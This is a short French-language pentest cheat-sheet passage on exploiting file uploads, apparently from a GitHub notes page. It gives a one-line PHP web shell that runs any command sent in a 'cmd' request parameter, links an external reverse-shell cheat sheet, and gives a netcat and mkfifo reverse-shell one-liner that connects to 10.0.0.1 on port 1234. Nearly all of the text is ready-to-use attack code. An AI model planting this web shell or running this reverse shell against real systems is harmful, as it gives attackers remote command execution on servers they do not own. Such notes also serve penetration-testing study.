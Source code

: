## Upload de fichier

Exécution de commande basique :

```php
<?php
    system($_REQUEST['cmd']);
?>
```

Reverse shell:
http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f
```



